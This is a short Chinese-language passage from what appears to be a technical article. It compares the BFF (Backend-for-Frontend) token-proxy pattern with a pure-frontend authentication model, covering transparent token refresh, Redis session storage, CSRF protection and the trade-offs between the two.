**Token 代理透明化**：前端代码完全不感知 Token 的存在，只管发请求。BFF 负责找到正确的 Token、必要时刷新、然后转发给业务 API。Token 刷新逻辑对前端完全透明。

**BFF 模式的代价**：引入了 BFF 服务作为必须高可用的关键基础设施。Session 必须集中存储在 Redis 中，不能依赖本地内存。CSRF 防护是必须主动实现的，而不是像纯前端模式那样天然免疫。

两种接入模式都有其适用场景，工程上没有绝对的好坏——安全要求更高的应用选 BFF，架构简单、对 XSS 有其他防护手段的应用可以选纯前端模式。真正的工程能力在于清楚理解每种选择的代价，做出明智的权衡。